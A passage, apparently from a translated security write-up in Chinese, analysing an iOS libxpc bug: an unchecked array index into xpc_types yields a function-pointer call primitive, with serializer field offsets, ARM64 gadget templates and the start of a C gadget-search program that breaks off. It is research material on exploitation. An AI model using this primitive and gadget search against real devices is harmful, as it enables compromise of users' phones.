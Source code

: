 每个xpc类型的类对象中，偏移量+0x90处的值是其wire_length函数指针。该函数指针将会使用一个参数调用，该参数是指向当前xpc_serializer对象的指针。

这就给出了一个非常有用的漏洞利用原语：

控制一个数组索引i，可以在0x1c和0x100000之间（因为它是受控wireid值的较高20位）。这样一来，将会索引xpc_types数组到共享缓存中libxpc.dylib库的const段中。代码将在它们提供的偏移量处读取指针（没有经过边界检查），然后在偏移量+0x90处调用函数指针：

[![](https://p1.ssl.qhimg.com/t01a4d0485662af1b66.png)](https://p1.ssl.qhimg.com/t01a4d0485662af1b66.png)

当调用F_PTR时，没有寄存器指向受控数据。X0将指向当前的xpc_serializer，因此这似乎是目标的逻辑选择，可以发生更有趣的事情。能间接控制的xpc_serializer对象的相关字段是：

```
+0x28 = buffer
+0x30 = buffer_size
+0x38 = current_position_in_buffer_ptr
+0x40 = remaining to be consumed
+0x48 = NULL
```

因此，我们的目标是在0x1C和0x100000之间找到一个值i，这样从xpc_types数组开始的第i个指针包含一个指向结构的指针，在偏移量+0x90处有一个函数指针，当调用时会使用X0+偏移量0x28或X0+偏移量0x38的值做一些有趣的事情，比如从那里调用一个函数指针，并提供更好的寄存器控制。

听起来很有趣，但具体是如何做到的呢？



## 百万分之一

选项A：

前一条指令的较高8位必须为0x17；

目标F_PTR指令的较高16位必须为0x17ff；

下一条指令必须为0xd1004000（sub x0, x0, #0x10）。

选项B：

小工具的指针必须指向与以下模板匹配的9条指令序列：

```
0 STP             X20, X19, [SP,#-0x20]!
1 STP             X29, X30, [SP,#0x10]
2 ADD             X29, SP, #0x10
3 MOV             X19, X0
4 *
5 *
6 add x9, x8, #0x10
7 *
8 add x8, x8, #0x1e0
```

我重新实现了他们的小程序搜索代码，并在一些设备上对其进行了测试，并有所发现：

```
#include "xpc.h"
#include &lt;dlfcn.h&gt;
#include &lt;string.h&gt;

int syscall(int, ...);

void* xpc_null_create(void);

void find_it() `{`
  void* handle = dlopen("/usr/lib/system/libxpc.dylib", 2);
  if (!handle) `{`
    printf("unable to dlopen libxpcn");
    return;
  `}`

  printf("handle: %pn", handle);
```